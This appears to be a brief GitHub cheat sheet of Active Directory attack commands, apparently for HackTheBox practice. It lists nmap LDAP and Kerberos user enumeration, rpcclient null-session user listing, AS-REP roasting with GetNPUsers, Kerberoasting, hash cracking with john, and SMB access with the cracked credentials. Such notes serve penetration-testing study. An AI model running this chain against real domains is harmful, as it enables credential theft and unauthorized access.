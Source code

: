 # Commands-Importants

- LDAP with nmap:
```bash
nmap --script ldap-search -p389 <target> -oN ldapScan
```
- Kerberos with nmap:
```bash
nmap -script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=/opt/Seclists/Usernames/Names/names.txt -p88 <target>
```
- Enumerate with `rpcclient`
```bash
rpcclient -U "" <target> -N -c 'enumdomusers' 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users
```
- AS-REP Roasting attack -> I get a hash/ticket  of a user
```bash
GetNPUsers htb.local/ -no-pass -usersfile users
```
- KERBEROS -> I need credentials -> `GetUserSPNs`

- Crack the hash/ticket with `john`

- Enumerate with smbclient and the credentials
```bash
smbclient -L <target> -U "htb.local\<username>" 
>>>> password -> I put the password
```
